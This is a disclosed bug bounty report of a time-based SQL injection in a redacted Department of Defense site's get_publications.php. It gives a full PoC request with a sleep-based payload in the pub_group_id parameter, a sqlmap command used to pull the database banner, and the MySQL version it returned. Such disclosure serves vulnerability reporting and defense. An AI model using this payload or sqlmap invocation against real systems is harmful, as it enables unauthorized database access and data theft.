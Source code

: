 # SQL Injection in the get_publications.php on the https://█████

## Report Details
- **Report ID**: 489483
- **URL**: https://hackerone.com/reports/489483
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-02-01T01:28:43.640Z
- **Disclosed**: 2019-10-04T15:18:44.582Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
Hello. I was able to find Time-based SQLI on the https://███/pubs/get_publications.php using `pub_group_id` parameter

##POC
```
GET /pubs/get_publications.php?pub_group_id=wrtqvasi10rc19j1'%2b(select*from(select(sleep(5)))a)%2b'&rno86qi4=1 HTTP/1.1
Host: █████
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: https://█████/pubs/
Accept-Encoding: gzip, deflate, br
Accept-Language: en,ru;q=0.9,en-US;q=0.8,uk;q=0.7
Cookie: _ga=GA1.2.1697249984.1548431559; __utma=161700579.1697249984.1548431559.1548902867.1548902867.1; __utmz=161700579.1548902867.1.1.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); _test_cookie=0


```
This request will trigger the 5 sec delay of the response. By making sleep value as 10, request will be delayed for 10 seconds.
As additional POC, that attacker is able to extract data, and it's not a false-positive, I retrieved DB banner (version) only using sqlmap command:
```
sqlmap.py -r test.txt --dbms=mysql --technique=T -p pub_group_id --banner --force-ssl --level=5
```
where test.txt is a text fiile contained request dump above.
Result:
```
5.5.62-0ubuntu0.14.04.1
```
█████

No sensitive data such as databases, tables, or content was accessed.

## Impact

SQL injection usually have high or critical impact.

## Attachments
No attachments
